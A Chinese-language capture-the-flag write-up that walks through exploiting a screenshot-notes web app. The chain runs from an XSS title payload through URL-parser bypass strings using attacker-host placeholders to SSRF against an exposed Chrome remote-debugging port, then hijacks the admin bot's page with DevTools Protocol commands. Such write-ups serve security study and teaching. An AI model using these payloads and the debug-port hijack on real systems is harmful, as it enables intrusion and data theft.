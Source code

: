 ### References

- [@LiveOverflow, Video WP: can you hack this screenshot service??, 2021-08-19](https://www.youtube.com/watch?v=FCjMoPpOPYI)
- [@jamchamb, wshax3.html, 2021-10-31](https://gist.github.com/jamchamb/fb8e1974548b03b18ef77618ff799a57)

**Tag: XSS, URL Parse trick, Chrome Devtools Protocol**

1.XSS 比较好找到，app.py 中使用了 flask 的 `render_template` 函数来渲染模板，根据[文档](https://flask.palletsprojects.com/en/2.2.x/tutorial/templates/)中的描述：

> Flask uses the [Jinja](https://jinja.palletsprojects.com/templates/) template library to render templates.

尽管在 jinja 文档的 [HTML Escaping](https://jinja.palletsprojects.com/en/3.1.x/templates/#html-escaping) 部分提到 **Jinja default configuration is no automatic escaping;** 但是在 flask 文档中有提到是默认开启自动转义的：

> In Flask, Jinja is configured to *autoescape* any data that is rendered in HTML templates.

所以正常情况下 `<` `>` `&` `"` 等字符会被转义掉，不会造成 XSS，但在 note.html 中有一处如下模板：

```html
{% if note.data.startswith('data:image/') %}
<img src="{{ note.data }}" class="rounded-t-xl object-cover h-full w-full" alt={{ note.title }} />
```

当添加的 note 中含有图片时(即使用 screenshot 功能创建的 note)，`alt` 属性中会包含 title 的内容，这部分很明显是可控的，并且不像 `src` 属性那样使用双引号，所以可以注入新的属性例如 `onload` 造成 XSS：

```html
<html>
  <head>
    <title>x onload=alert(document.domain)</title>
  </head>
  <body>xss</body>
</html>
```

2.虽然上面口出狂言说很明显可控，但在 `add_note()` 函数中也很明显告诉你只有当链接是以 `https://www.cscg.de` 或者 `http://cscg.de` 开头时才能进行 screenshot；当然这部分也也也很明显可以绕过的，例如如果你有域名的话，只需要设置子域名为 `cscg.de.` 即可：

```text
http://cscg.de.attacker.domain/xss.html
```

或者只要你读过 @Orange 的 [A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)，例如利用 authority 来绕过：

```text
http://cscg.de:test@attacker.ip/xss.html
```

这样前面的 `cscg.de` 和 `test` 就分别作为用于认证的 username 和 password (当然也可以不要 password 反正最后都是忽略的)，这样甚至不需要你拥有一个域名。

3.现在有了一个 XSS，根据 admin.py 中的逻辑，flagger 用户会把 flag 添加到 note 中，然后一段时间后再把该 note 删掉，如此循环。但这个 XSS 貌似是一个 Self-XSS，看起来没啥用；不过当我们绕过了域名检测时，这里其实就是一个 SSRF 了，所以可以尝试探测内网的一些东西。

然后再看代码，screenshot 功能和 admin.py 中的模拟用户功能都是通过 `pyppeteer` 来操作的

> pyppeteer is unofficial Python port of [puppeteer](https://github.com/GoogleChrome/puppeteer) JavaScript (headless) chrome/chromium browser automation library.

接下来是，摘抄 @Zedd 师傅语录环节😋：

> puppeteer 跟 chrome 联系是通过一个监听在本地 127.0.0.1 随机端口的 remote-debugging-port 通信的。可以通过 `chrome --remote-debugging-port=50000` 来启动这个 debug 端口。根据对应文档，我们可以通过 `http://127.0.0.1:50000/json` 来看到所有可以与之通信的目标。之后我们可以根据得到的 websocket 地址（`webSocketDebuggerUrl`），和对应的 TAB 建立 ws 链接

在 chrome 目录的 Dockerfile 中可以发现如下两行：

```dockerfile
ENTRYPOINT [
	... \
	"--remote-debugging-address=0.0.0.0", \
	"--remote-debugging-port=9222", \
	... \
]
```

可见开启了 debug 端口在 9222，事实上代码中也都有写，进行 screenshot 操作时就是连接到这个 debug 端口进行通信：

```python
await pyppeteer.connect(browserURL=f'http://{CHROME_IP}:9222')
```

并且在 `/activity` 路由下可以查看到这个 ip，因为通过日志来记录了：

```python
worker_name = base64.b64encode(CHROME_IP.encode('ascii')).decode('ascii').strip('=')
public_log(f"{g.user['username']} requested a screenshot via worker chrome:{worker_name}")
```

所以就可以通过：

```text
http://cscg.de@CHROME_IP:9222/json
```

来获取 flagger 用户进行 screenshot 操作时的 `webSocketDebuggerUrl`，然后进行一些操作来 leak flag（具体参考出题者的视频和脚本）

4.由于 flagger 用户跑完整个流程中有各种延时操作，再加上 screenshot 操作本身就要延迟 10s，所以为了当我们截图的时候能够获取到 flagger 用户在 debug 端口通信的 url，此时 flagger 用户的流程肯定也是在等待那个 10s 的阶段，再加上还要获取 `/devtools/page/` 后的 id、还要 ws 连接上去搞 XSS，作者在视频和脚本中直接化身时间管理大师，看的我是已经猪脑过载了。

然后翻了下评论区，看到个老哥的评论很有意思：

> As an alternative to the OCR + timing, you can use the Chrome DevTools protocol to create a separate page (+ browser context) that outlives the screenshot page, which avoids the need for timing. From that separate page, you can use the DevTools protocol to listen to new pages being created in the browser, and use the trick you mention in the video to redirect to a URL that triggers the XSS. 
>
> You might wonder how you connect to the API in the first place without needing to rely on one of the screenshot pages being alive (to avoid depending on the timing): it turns out you can connect to the "browser" rather than a "page" by using the WebSockets URL returned by **/json/version**, which is stable throughout the session.

确实妙啊，都能直接和 debug 端口通信了，还去管那个 flagger 用户的 websocket targets 干啥，直接连上 browser 的 `webSocketDebuggerUrl` 去监听那些事件，再来操作不就好了吗。

不过我并不懂 Chrome DevTools Protocol，简单搜了下这个思路，发现已经有人实现了（即参考链接2）。通过 [`/json/version`](https://chromedevtools.github.io/devtools-protocol/#endpoints) 获取到一个类似如下的 url：

```text
"webSocketDebuggerUrl": "ws://localhost:9222/devtools/browser/b0b8a4fb-bb17-4359-9533-a8d9f3908bd8"
```

<del>然后直接扔进脚本就打完了（bushi</del>

浅学了一下，首先是连接上 ws 后触发 `onOpen` 事件然后设置了一个 [Target.setDiscoverTargets](https://chromedevtools.github.io/devtools-protocol/tot/Target/#method-setDiscoverTargets) 用来监听一些事件：

```json
{"id":1,"method":"Target.setDiscoverTargets","params":{"discover":true}}
```

大概在控制台试了一下，flagger 完成一个完整流程，`onMessage` 监听返回了如下的 6 个事件：

```text
// context.newPage() 触发该事件
{"method":"Target.targetCreated","params":{"targetInfo":{"targetId":"6FFBA74471A90C9E3B05021B5CBD63DF","type":"page","title":"","url":"","attached":false,"canAccessOpener":false,"browserContextId":"02050974D9DD71E29E632659A7B82317"}}}

{"method":"Target.targetInfoChanged","params":{"targetInfo":{"targetId":"6FFBA74471A90C9E3B05021B5CBD63DF","type":"page","title":"about:blank","url":"about:blank","attached":false,"canAccessOpener":false,"browserContextId":"02050974D9DD71E29E632659A7B82317"}}}

{"method":"Target.targetInfoChanged","params":{"targetInfo":{"targetId":"6FFBA74471A90C9E3B05021B5CBD63DF","type":"page","title":"about:blank","url":"about:blank","attached":true,"canAccessOpener":false,"browserContextId":"02050974D9DD71E29E632659A7B82317"}}}

{"method":"Target.targetInfoChanged","params":{"targetInfo":{"targetId":"6FFBA74471A90C9E3B05021B5CBD63DF","type":"page","title":"https://www.cscg.de","url":"https://www.cscg.de/","attached":true,"canAccessOpener":false,"browserContextId":"02050974D9DD71E29E632659A7B82317"}}}

// 后面两个会延时一段时间(大概有个10几秒)才触发

{"method":"Target.targetInfoChanged","params":{"targetInfo":{"targetId":"6FFBA74471A90C9E3B05021B5CBD63DF","type":"page","title":"Cyber Security Challenge Germany","url":"https://www.cscg.de/","attached":false,"canAccessOpener":false,"browserContextId":"02050974D9DD71E29E632659A7B82317"}}}

// 页面关闭时触发该事件
{"method":"Target.targetDestroyed","params":{"targetId":"6FFBA74471A90C9E3B05021B5CBD63DF"}}
```

并且根据判断，事件为 `Target.targetInfoChanged` 时调用 checkTarget 函数，然后根据其中的 url 值是否为 `https://www.cscg.de/` 来决定是否进行下一步，这里对应上面的第 4 个事件，大概是 flagger 用户在执行 screenshot 操作时的等待期间。

此时由于 `attached` 的值为 true，然后脚本就在这期间通过 [Target.attachToTarget](https://chromedevtools.github.io/devtools-protocol/tot/Target/#method-attachToTarget) attach 了这个 targetId 并返回了一个 SessionID（Unique identifier of attached debugging session.），`onMessage` 监听到该事件后去调用了 targetAttached 函数。

获取到 SessionID 后就通过 [Target.sendMessageToTarget](https://chromedevtools.github.io/devtools-protocol/tot/Target/#method-sendMessageToTarget) 来进行通信了，在 targetAttached 函数中包装了两个 message，首先是通过 [DOM.getDocument](https://chromedevtools.github.io/devtools-protocol/tot/DOM/#method-getDocument) 获取了 DOM 树的相关信息，内容如下：

```text
RESPONSE: {"method":"Target.receivedMessageFromTarget","params":{"sessionId":"72779782C5A7C8F023D8FF21D6B63F17","message":"{\"id\":1336,\"result\":{\"root\":{\"nodeId\":1,\"backendNodeId\":2,\"nodeType\":9,\"nodeName\":\"#document\",\"localName\":\"\",\"nodeValue\":\"\",\"childNodeCount\":2,\"children\":[{\"nodeId\":2,\"parentId\":1,\"backendNodeId\":33,\"nodeType\":10,\"nodeName\":\"html\",\"localName\":\"\",\"nodeValue\":\"\",\"publicId\":\"\",\"systemId\":\"\"},{\"nodeId\":3,\"parentId\":1,\"backendNodeId\":34,\"nodeType\":1,\"nodeName\":\"HTML\",\"localName\":\"html\",\"nodeValue\":\"\",\"childNodeCount\":2,\"children\":[{\"nodeId\":4,\"parentId\":3,\"backendNodeId\":35,\"nodeType\":1,\"nodeName\":\"HEAD\",\"localName\":\"head\",\"nodeValue\":\"\",\"childNodeCount\":26,\"attributes\":[]},{\"nodeId\":5,\"parentId\":3,\"backendNodeId\":36,\"nodeType\":1,\"nodeName\":\"BODY\",\"localName\":\"body\",\"nodeValue\":\"\",\"childNodeCount\":3,\"attributes\":[\"class\",\"colorscheme-light\"]}],\"attributes\":[\"lang\",\"de\"],\"frameId\":\"6FFBA74471A90C9E3B05021B5CBD63DF\"}],\"documentURL\":\"https://www.cscg.de/\",\"baseURL\":\"https://www.cscg.de/\",\"xmlVersion\":\"\",\"compatibilityMode\":\"NoQuirksMode\"}}}","targetId":"6FFBA74471A90C9E3B05021B5CBD63DF"}}
```

最后通过 [DOM.setOuterHTML](https://chromedevtools.github.io/devtools-protocol/tot/DOM/#method-setOuterHTML) 事件将 nodeId 为 1 的节点（即 `#document`）修改掉了，这里是将 `title` 标签修改为了前面提到的 XSS 部分的代码。

此时延时 10s 完毕，获取 `page.title()` 时就不是前面测试的那一个 Cyber Security Challenge Germany 值，而是我们修改之后的值了。这样就完成了利用，不需要我们去操控时间，只需要等待 flagger 用户操作，我们 attach 上去修改它的值即可：

![img1](./assets/img1.png?raw=true)

虽然前面评论说不用管时间，不过感觉有时候可以触发有时候又不能触发，所以还是抄了下代码让他在 flagger 用户执行 screenshot 之前进行，这样感觉成功率高点。或者也可以暴力点尝试发一堆过去总有会触发的（
